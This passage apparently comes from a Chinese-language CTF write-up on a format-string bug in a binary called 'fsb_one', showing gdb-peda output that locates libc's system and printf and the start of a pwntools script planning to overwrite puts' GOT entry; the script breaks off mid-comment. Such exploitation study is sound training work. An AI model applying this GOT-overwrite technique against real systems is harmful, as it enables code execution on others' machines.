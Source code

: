 ```
gdb-peda$ xinfo 0x00007f9ec4da32e1
0x7f9ec4da32e1 (<__libc_start_main+241>:	mov    edi,eax)
Virtual memory mapping:
Start : 0x00007f9ec4d83000
End   : 0x00007f9ec4f16000
Offset: 0x202e1
Perm  : r-xp
Name  : /lib/x86_64-linux-gnu/libc-2.24.so
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0x7f9ec4dc2480 <__libc_system>
gdb-peda$ xinfo 0x7f9ec4dc2480
0x7f9ec4dc2480 (<__libc_system>:	test   rdi,rdi)
Virtual memory mapping:
Start : 0x00007f9ec4d83000
End   : 0x00007f9ec4f16000
Offset: 0x3f480
Perm  : r-xp
Name  : /lib/x86_64-linux-gnu/libc-2.24.so
gdb-peda$ p printf
$2 = {<text variable, no debug info>} 0x7f9ec4dd2190 <__printf>
gdb-peda$ xinfo 0x7f9ec4dd2190
0x7f9ec4dd2190 (<__printf>:	sub    rsp,0xd8)
Virtual memory mapping:
Start : 0x00007f9ec4d83000
End   : 0x00007f9ec4f16000
Offset: 0x4f190
Perm  : r-xp
Name  : /lib/x86_64-linux-gnu/libc-2.24.so
```
成功打印出`__libc_start_main`的地址。

<img src="/images/posts/fmt1/1523773538616.png" >


上脚本：
```
#!/usr/bin/env python
# coding=utf-8
from pwn import *

p = process('fsb_one')  #,env = {'LD_PRELOAD' : ',.libc.so.6'})
#libc = ELF('libc.so.6')
elf = ELF('fsb_one')

puts_got = elf.got["puts"]
#puts_got = 0x601018
print hex(puts_got)
echo = 0x400806

'''
 addr[0x601018] = 0x0806
 addr[0x60101a] = 0x0040
 addr[0x60101c] = 0x0000
 addr[0x60101e] = 0x0000
 0x601018 => 0x00400806
 
```